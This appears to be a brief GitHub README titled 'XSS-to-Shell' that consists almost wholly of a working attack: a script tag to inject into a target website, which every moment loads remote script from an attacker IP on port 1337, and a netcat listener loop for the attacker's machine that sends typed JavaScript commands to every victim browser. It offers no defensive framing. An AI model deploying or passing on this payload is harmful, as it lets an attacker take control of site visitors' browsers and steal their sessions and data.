 # XSS-to-Shell

* Website to Attack:

<script>setInterval(function(){d=document;z=d.createElement("script");z.src="//192.168.78.129:1337";d.body.appendChild(z)},0)</script>


* Attackers Machine:

while :; do printf "@x11>$ "; read c; echo $c | nc -vvlp 1337 >/dev/null; done
